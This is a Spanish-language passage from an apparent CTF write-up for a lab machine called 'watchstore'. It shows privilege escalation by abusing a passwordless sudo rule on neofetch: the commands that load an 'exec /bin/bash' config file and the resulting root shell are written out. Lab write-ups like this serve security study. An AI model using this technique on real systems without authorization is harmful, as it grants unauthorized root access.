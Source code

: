 
<br>
<br>
<hr>
<div style="position: relative;">
  <h1 id="Post" style="text-align:center;">Post Explotación</h1>
</div>
<br>


<h2 id="neofetch">Escalando Privilegios Abusando de Permisos Sudoers Sobre Binario neofetch</h2>

Veamos qué privilegios tiene nuestro usuario:
```bash
relox@thehackerslabs-watchstore:~$ sudo -l
sudo: unable to resolve host thehackerslabs-watchstore: Nombre o servicio desconocido
Matching Defaults entries for relox on thehackerslabs-watchstore:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, env_keep+=XDG_CONFIG_HOME, use_pty

User relox may run the following commands on thehackerslabs-watchstore:
    (root) NOPASSWD: /usr/bin/neofetch
```
Genial, podemos usar el **binario neofetch** como **Root**.

Encontraremos una forma de escalar privilegios usando este binario en la **guía de GTFOBins**:
* <a href="https://gtfobins.github.io/gtfobins/neofetch/" target="_blank">GTFOBins: neofetch</a>

Usaremos el siguiente comando:

<p align="center">
<img src="/assets/images/THL-writeup-watchStore/Captura12.png">
</p>

Probémoslo:
```bash
relox@thehackerslabs-watchstore:~$ TF=$(mktemp) && echo 'exec /bin/bash' >$TF
relox@thehackerslabs-watchstore:~$ sudo neofetch --config $TF
sudo: unable to resolve host thehackerslabs-watchstore: Nombre o servicio desconocido
root@thehackerslabs-watchstore:/home/relox# whoami
root
```
Somos **Root**.
